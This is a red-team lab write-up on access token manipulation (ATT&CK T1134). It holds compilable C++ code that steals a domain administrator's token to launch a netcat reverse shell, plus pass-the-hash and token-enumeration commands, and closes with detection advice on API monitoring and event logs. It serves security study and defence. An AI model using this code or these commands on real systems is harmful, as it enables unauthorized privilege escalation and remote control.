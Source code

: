```yaml
---
description: >-
  Defense Evasion, Privilege Escalation by stealing an re-using security access
  tokens.
---
```


# T1134: Access Token Manipulation

## Execution

One of the techniques of token manipulations is creating a new process with a "stolen" token. This is when a token of an already existing access token present in one of the running processes on the local host, is retrieved, then duplicated and then used for creating a new process making the process run in the context of stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process with access token you want to steal | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal its token from, since it is running as a domain admin and makes for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonted token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code-tabs %}
{% code-tabs-item title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 \(interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command\). 

Another quick test that I wanted to do is test a theft of an access token that was present in the system due to a network logon \(i.e psexec, winexec, pth-winexe, etc\), so I spawned a cmd shell remotely from the attacking machine to the victim machine via:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

which created a new process on the victim system with a PID of 4780:

![](../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with `Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid` from PowerSploit gives the below. Note the available token \(highlighted\) - it is the cmd.exe from above screenshot and its logon type is as expected is 3 \(a network logon\):

![](../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to 4780 \(it has the access token we want to steal\):

![](../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](../.gitbook/assets/token-new-logon-3%20%281%29.png)

## Observations

Imagine you were investigating the host \(we stole tokens from\) because it exhibited some anomalous behaviour, in this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](../.gitbook/assets/token-disasm.png)

As suggested by the above, you should think about API monitoring if you want to detect these manipulations on endpoints. Additionally, Windows event logs of IDs `4672` and `4674` may be helpful - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../.gitbook/assets/token-logs.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1134\",\"type\":\"link\",\"title\":\"Access Token Manipulation - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens\",\"type\":\"link\",\"title\":\"SANS Digital Forensics and Incident Response Blog \| Protecting Privileged Domain Accounts:  Safeguarding Access Tokens \| SANS Institute\",\"description\":\"SANS Digital Forensics and Incident Response Blog blog pertaining to Protecting Privileged Domain Accounts:  Safeguarding Access Tokens\",\"icon\":{\"type\":\"icon\",\"url\":\"https://digital-forensics.sans.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/\",\"type\":\"link\",\"title\":\"PowerShell and Token Impersonation\",\"description\":\"This post will discuss bringing incognito-like functionality to PowerShell in the form of a new PowerShell script \(Invoke-TokenManipulation\), with some important differences. I’ll split this post u…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://clymb3r.files.wordpress.com/2013/11/screen-shot-2013-11-03-at-10-07-42-pm.png?w=300\",\"width\":300,\"height\":187,\"aspectRatio\":0.6233333333333333}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"GetTokenInformation function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens\",\"type\":\"link\",\"title\":\"SANS Digital Forensics and Incident Response Blog \| Protecting Privileged Domain Accounts:  Safeguarding Access Tokens \| SANS Institute\",\"description\":\"SANS Digital Forensics and Incident Response Blog blog pertaining to Protecting Privileged Domain Accounts:  Safeguarding Access Tokens\",\"icon\":{\"type\":\"icon\",\"url\":\"https://digital-forensics.sans.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw\",\"type\":\"link\",\"title\":\"CreateProcessWithTokenW function\",\"description\":\"Creates a new process and its primary thread. The new process runs in the security context of the specified token. It can optionally load the user profile for the specified user.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"DuplicateTokenEx function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)

